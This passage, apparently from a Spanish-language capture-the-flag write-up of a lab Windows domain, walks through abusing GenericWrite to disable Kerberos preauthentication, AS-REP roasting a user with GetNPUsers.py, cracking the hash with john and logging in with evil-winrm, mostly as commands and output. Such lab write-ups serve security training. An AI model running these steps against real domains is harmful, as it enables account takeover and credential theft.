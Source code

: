 > GenericWrite - actualizar los atributos del objeto (por ejemplo, script de inicio de sesión)


Aprovecharemos el `Generic Write` para setear la propiedad `dont require Kerberos preauthentication` y con esto hacer al usuario `ASREPRoasteable`


```powershell
*Evil-WinRM* PS C:\Windows\Temp\Privesc> Get-Aduser jorden | Set-ADAccountControl  -doesnotrequirepreauth $true
```

Con`GetNPUsers.py` esta vez si podamos obtener el hash

```bash
❯ GetNPUsers.py MEGACORP.LOCAL/ -no-pass -usersfile users.txt
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] User tushikikatomo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lana doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andrew doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$jorden@MEGACORP.LOCAL:8e7ea2a50a1602c925cf681fca176a58$a2a1627ed23fe85bdadc88c1a0b551f0ee10dfe43f7677fc6f1204e36d5e849c95932313e7fae6b9829be5d69f243279f32098db2118abef962bb1b7fa2caafe91ca22d2747690dea014ecc6e9f95e2dffdd8acac823f47c7e29a834cf910daa4cbdc19187bbf95d436e083a050e274fd15905b15f58c2e9cc23932efcac112a2adf3a59fd3de0342d4d35e33f7da5aeb2be18db5aa625a95adbde5c075843711be01945177e8fd7935c8edc5355ee98fce7b9d4becbc72e14606e5c4df3b1577f19b621457089150499cf8a79616110fe973d7e63bbde78641380be90733b621190a13c13968c6ed3d2d9ea85bf9603
[-] User sbauer doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User okent doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Procedamos a crackearlo con `john` y nos devuelve la contraseña en texto claro.

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 512/512 AVX512BW 16x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rainforest786    ($krb5asrep$23$jorden@MEGACORP.LOCAL)
1g 0:00:00:06 DONE (2023-04-02 17:01) 0.1550g/s 682666p/s 682666c/s 682666C/s rainian..railezs05
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Nos conectamos nuevamente con `evil-winrm` y hubieramos migrado al usuario `jorden` 

```powershell
❯ evil-winrm -i 10.10.10.179 -u 'jorden' -p 'rainforest786'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\jorden\Documents> whoami
megacorp\jorden
```
